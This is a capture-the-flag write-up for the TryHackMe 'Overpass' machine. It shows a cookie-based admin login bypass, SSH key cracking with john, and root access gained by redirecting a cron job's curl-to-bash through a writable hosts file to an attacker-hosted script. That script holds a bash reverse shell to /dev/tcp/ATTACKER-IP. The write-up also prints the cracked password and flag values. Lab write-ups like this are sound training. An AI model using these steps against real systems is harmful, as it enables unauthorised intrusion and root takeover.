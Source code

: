 # Overpass

- nmap scan shows only port 80 and 22(ssh) are open
- using ffuf or gobuster you find a hidden admin portal on the web server at http://IP/admin
- looking at the login.js script you see that when you enter a correct username and password a cookie is set with the name SessionToken

![](screenshots/login_js.png)
- with this knowlege we can set our own cookie with the name SessionToken and set the value to true
- I did this with the chrome developer console

![](screenshots/chrome_cookieset.png)

upon refresing the page you are greated with an rsa private key and a message

![](screenshots/admin_rsakey.png)


using ssh2john I converted the sshkey to a john hash format 
then using john and the following command I cracked the password
```
john --wordlist rockyou.txt id_rsa.hash --format=ssh
```


password:james13


after logging in and doing an ls of james home dir i see a list of files
todo.txt and user.txt

user.txt
```
thm{65c1aaf000506e56996822c6281e6bf7}
```

the todo.txt file contains the following
![](screenshots/todo.png)

Next i located overpass on the system using 

```
which overpass
```
this returned a location for the binary 

```
/usr/bin/overpass
```
Running overpass and selecting the option to retreive all passwords gives me the following output
 
![](screenshots/james_overpass_list.png)

```
System
saydrawnlyingpicture 
```
Lets see what intersting things we can find with a little recon using linpeas.
When we run linpeas on the host we see a few things one of which is a cron job that runs the buildscript we saw mentioned in the todo.txt 
cron is the trypicall way things are automaticly ran on a linux machine (think task scheduler for linux)
![](screenshots/cron.png)

we see that the cron job runs curl to a host overpass.thm to get the buildscript.sh and then passes that to bash this is interesting wonder if we can abuse that.

contuning our look at the linpease output we see that the hosts file is writeable by anyone which is not typically the case.
![](screenshots/interesting_files.png)

lets check to we have listed there or maybe add to it for our own benift

opening up the host file we see the following

![](screenshots/hosts.png)

we see that the host listed in the cron job overpass.htm points to the localhost
lets change that to our machine if you are using the vpn use the ip from the vpn if using the attackbox use that ip and setup a revshell

first we have to create the directory structer so that our python serer will match the url the cron job is curling

on your host make a directory called downloads and one inside of there called src
inside of that create a buildscript.sh file

now to set up our reverse shell I am going to use this bash oneline since not every install of netcat has the -e option avalialbe. edit the buildscript.sh file to have the following
```
#!/bin/bash

bash -i >& /dev/tcp/ATTACKER-IP/ATTACKER-PORT 0>&1
```
the stand up your python server using port 80 since your using port 80 you will have to use sudo or run as root 

from the directory where you created your downloads/src folders

```
sudo python3 -m http.server 80
```

also have your nc listener running

```
nc -lvnp ATTACKER-PORT
```

with any luck you get a revshell shortly
![](screenshots/shell.png)

```
cat root.txt
thm{7f336f8c359dbac18d54fdd64ea753bb}
```